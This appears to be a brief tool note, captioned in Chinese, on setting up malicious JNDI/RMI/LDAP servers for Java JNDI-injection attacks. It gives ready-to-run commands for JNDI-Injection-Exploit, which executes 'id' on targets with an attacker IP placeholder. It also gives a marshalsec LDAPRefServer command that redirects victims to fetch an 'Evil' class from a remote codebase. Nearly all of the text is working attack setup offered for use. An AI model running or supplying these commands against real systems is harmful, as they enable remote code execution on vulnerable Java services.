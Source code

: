 - JNDI-Injection-Exploit-1.0-SNAPSHOT-all
  搭建JNDI服务端
  `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "id" -A your_ip`

- marshalsec-0.0.3-SNAPSHOT-all
  搭建RMI/JNDI服务端

  ```java
  java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8888/#Evil 9999
  ```

  